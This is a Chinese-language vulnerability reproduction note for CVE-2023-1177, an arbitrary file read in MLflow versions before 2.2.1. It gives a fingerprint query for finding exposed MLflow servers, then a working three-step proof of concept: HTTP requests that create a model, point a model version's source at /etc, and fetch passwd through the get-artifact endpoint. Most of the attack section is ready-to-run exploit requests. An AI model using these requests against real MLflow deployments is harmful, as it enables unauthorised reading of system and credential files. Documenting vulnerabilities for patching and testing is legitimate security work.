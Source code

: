 # 

# MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

```
MLflow < 2.2.1
```

## 网络测绘

```
app.name="MLflow"
```

## 漏洞复现

登陆页面

![image-20230417093814404](images/image-20230417093814404.png)

验证POC

```
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![image-20230417093836998](images/image-20230417093836998.png)

```
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![image-20230417093851779](images/image-20230417093851779.png)

```
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![image-20230417093907298](images/image-20230417093907298.png)
